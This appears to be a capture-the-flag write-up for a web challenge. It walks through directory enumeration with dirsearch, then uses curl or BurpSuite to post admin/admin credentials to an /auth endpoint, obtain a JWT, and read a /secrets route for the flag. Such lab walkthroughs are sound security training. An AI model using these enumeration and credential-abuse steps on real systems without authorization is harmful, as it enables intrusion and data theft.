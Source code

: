 ## authorization

```
cd dirsearch
python -m venv venv
source venv/bin/activate
pip install -r requirements.txt
```

Run dirsearch:

```
python dirsearch.py -u <url> -w db/dicc.txt
```

We get the following routes:

```
/auth
/client_secrets.json
/console
/robots.txt
/secrets
```
For `auth` endpoint, we are not allowed to use GET requests; after trying a BurpSuite POST request, we see some errors involving `JWT_AUTH_USERNAME_KEY` and `JWT_AUTH_PASSWORD_KEY`. We get credentials from `/secret` and modify our request in BurpSuite by adding:

```
Content-Type: application/json

{
    "username":"admin",
    "password":"admin"
}
```

Or use the curl command:

```
curl -s <url>/auth -H "Content-Type: application/json" --data '{"username":"admin","password":"admin"}'
```

This way, we get the JWT_AUTH token, which we can use in our request to get the flag.

In BurpSuite, add:

```
Authorization: JWT <token>
```

Alternatively, curl:

```
curl -s <url>/secrets -H "Content-Type: application/json" -H "Authorizarion: JWT <token>"
```

